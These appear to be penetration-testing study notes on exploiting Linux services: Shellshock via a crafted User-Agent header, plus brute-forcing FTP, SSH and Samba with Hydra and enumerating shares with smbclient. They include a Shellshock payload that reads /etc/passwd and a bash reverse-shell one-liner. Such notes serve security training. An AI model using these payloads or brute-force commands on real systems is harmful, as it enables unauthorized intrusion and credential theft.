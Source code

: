   
  ## Exploiting Linux Vulnerabilities
  
  ### Exploiting Bash CVE-2014-6271 Vulnerability (Shellshock)
  - Bash is the default shell for nearly all Linux Distros
  - The Shellshock vulnerability is caused by a vulnerability in Bash, wehereby Bash mistakenly executes trailing commands after a series of characters: (){:;};
  - In context of remote exploitation, Apache web servers configured to run CGI scripts or .sh scripts are also vulnerable to this attack.
  
  - In oder to exploit this vulnerability, you will need to locate an input vector or script that allows you to communicate with Bash
  - This vulnerability can be exploited both manually (e.g. via Burp) and automatically with the use of MSF exploit module 
  
  - Check if a Webservice is vulnerable: nmap -sV x.x.x.x --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" (specify the location of the uri!)
  - Fire up Brup and intercept a respose from the vulnerable cgi module
  - Send it to repeater and replace the User-Agent to: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd' (Bash Rev. Shell: bash -i >& /dev/tcp/10.0.0.1/8080 0>&1)
  
  
  ### Exploiting FTP
  - FTP authentication requires a username and password combination. As a result, we can perform a bruteforce attack in the FTP Server in order to identify legitimate credentials.
  - In some cases, FTP servers may be configured to allow anonymous access, whick consequently allows anyone to access to the FTP server without providing legitimate credentials.
  
  - Hydra Bruteforce FTP:
    - hydra -L /usr/share/.... -P /usr/share/.... -vV 192.168.1.1 ftp (vV is optional)
  - Or use the ftp-brute NMAP Script.
  
  ### Exploiting SSH
  - SSH authentication can be configured in two ways. Username & Password authentication or Key-based authentication (In case of Username and PW, we can bruteforce this shit. (Or at least try it)
  - Bruteforce with Hydra: hydra -L /usr/share/... -P /usr/share/... x.x.x.x ssh
  
  ### Exploiting SAMBA
  - Network File Sharing Protocol (TCP 445); It is the Linux implementation of SMB
  - SAMBA utilizes a unsername and password authentication and we can perform a bruteforce attack with hydra
  - We can use SMBMap in order to enumerate SAMBA share dirves and list their contents
  - we can use smbclient to connect to a share
  
  - List samba shares on a target with autnentication
    - smbclient -U admin -L //x.x.x.x
  - Login to an samba share
    - smbclient -U admin  //x.x.x.x/sharename
  - perform a hydra bruteforce attack
    - hydra -l admin -P /usr/share/wordlists/.... smb x.x.x.x
  